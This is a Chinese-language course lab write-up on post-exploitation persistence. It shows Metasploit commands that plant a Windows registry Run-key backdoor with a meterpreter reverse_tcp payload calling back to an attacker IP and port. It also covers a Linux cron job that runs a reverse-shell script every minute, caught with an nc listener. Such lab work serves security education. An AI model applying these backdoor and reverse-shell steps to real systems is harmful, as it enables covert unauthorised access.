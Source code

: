 ```yaml
---
title: 实验六--权限维持技术
slug: /course/NPTT/test6
sidebar_position: 6
---
```


:::tip

这篇文章是在做网络渗透测试技术实验的时候写的，主要是以学习为目的

其中也还有很多的不足之处

:::

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

``` msf
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

``` msf
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](https://img.crzliang.cn/img/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](https://img.crzliang.cn/img/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在`KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](https://img.crzliang.cn/img/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](https://img.crzliang.cn/img/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](https://img.crzliang.cn/img/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](https://img.crzliang.cn/img/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](https://img.crzliang.cn/img/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](https://img.crzliang.cn/img/202312071143191.png)